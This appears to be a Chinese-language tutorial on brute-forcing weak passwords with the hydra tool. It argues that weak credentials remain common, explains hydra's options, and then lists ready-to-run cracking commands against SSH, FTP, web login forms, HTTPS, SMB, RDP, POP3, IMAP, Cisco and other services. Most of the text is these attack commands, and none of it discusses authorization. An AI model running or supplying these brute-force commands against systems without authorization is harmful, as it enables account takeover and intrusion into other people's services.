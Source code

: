 2018，网站的防护(sql,xss...)的安全保护也已经上升了一个等级，但是由于管理员的安全意识薄弱，网站弱口令漏洞依然猖獗，不信可以看补天的漏洞提交记录，弱口令依然是漏洞中的佼佼者，当然弱口令并不仅限于网站的后台登陆弱口令，还有端口，比如 Ftp:21，ssh:22，Telnet:23，Pop3:110，3389远程登陆，8080中间件Tomcat，7001中间件Weblogic，3306 Mysql数据库(phpmyadmin)，1433 SQLServer数据库，5432 Postgresql数据库...

端口扫描不用多讲，鄙人还是觉得nmap好一点，但是如何批量扫的话，丢包率可能高一点。

对于端口的爆破，首先要有一个好的字典，然后再有一个好的工具，工具的话，python脚本，超级弱口令检测工具....这里主要介绍kali里面hydra的爆破，应为hydra支持几乎所有协议的在线密码破解，并且容错率好，不过能不能爆破成功还是需要你有一个好的字典。

\---------------------------------------------------------------

**语法：**

```
# hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e ns][-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-f] [-s PORT] [-S] [-vV]
server service [OPT]
```

**参数详解：**



```
-R   根据上一次进度继续破解
-S   使用SSL协议连接
-s   指定端口
-l   指定用户名
-L   指定用户名字典(文件)
-p   指定密码破解
-P   指定密码字典(文件)
-e   空密码探测和指定用户密码探测(ns)
-M   <FILE>指定目标列表文件一行一条
-f   在使用-M参数以后，找到第一对登录名或者密码的时候中止破解。
-C   用户名可以用:分割(username:password)可以代替-l username -p password
-o   <FILE>输出文件
-t   指定多线程数量，默认为16个线程
-w   TIME 设置最大超时的时间，单位秒，默认是30s
-vV  显示详细过程
server     目标IP
service    指定服务名(telnet ftp pop3 mssql mysql ssh ssh2......)
```



#### 使用案例：

爆破 ssh:22 端口命令：

```
hydra -L users.txt -P password.txt -t 5 -vV -o ssh.txt -e ns 192.168.0.132 ssh
```

爆破 Ftp:21 端口命令(指定用户名为root)：

```
hydra -l root -P password.txt -t 5 -vV -o ftp.txt -e ns 192.168.0.132 ftp
```

get方式提交，破解web登录(指定用户名为admin)：

```
hydra -L user.txt -p password.txt -t 线程 -vV -e ns ip http-get /admin/
hydra -l admin -p password.txt -t 线程 -vV -e ns -f ip http-get /admin/index.php
```

post方式提交，破解web登录：

```
hydra -l admin -P password.txt -s 80 ip http-post-form "/admin/login.php:username=^USER^&password=^PASS^&submit=login:sorry password"
hydra -t 3 -l admin -P pass.txt -o out.txt -f 10.36.16.18 http-post-form "login.php:id=^USER^&passwd=^PASS^:<title>wrong username or password</title>"
```

参数说明：-t同时线程数3，-l用户名是admin，字典pass.txt，保存为out.txt，-f 当破解了一个密码就停止， 10.36.16.18目标ip，http-post-form表示破解是采用http的post方式提交的表单密码破解，<title>中的内容是表示错误猜解的返回信息提示。

破解https：

```
hydra -m /index.php -l admin -P password.txt 192.168.0.132 https
```

破解teamspeak：

```
hydra -l admin -P passworrd.txt -s 端口号 -vV 192.168.0.132 teamspeak
```

破解cisco：

```
hydra -P password.txt 192.168.0.132 cisco
hydra -m cloud -P password.txt 192.168.0.132 cisco-enable
```

破解smb：

```
hydra -l administrator -P password.txt 192.168.0.132 smb
```

破解pop3：

```
hydra -l root -P password.txt my.pop3.mail pop3
```

破解rdp(3389端口)：

```
hydra -l administrator -P password.txt -V 192.168.0.132 rdp
```

破解http-proxy：

```
hydra -l admin -P passwprd.txt http-proxy://192.168.0.132
```

破解imap：

```
hydra -L user.txt -p secret 192.168.0.132 imap PLAIN
hydra -C defaults.txt -6 imap://[fe80::2c:31ff:fe12:ac11]:143/PLAIN
```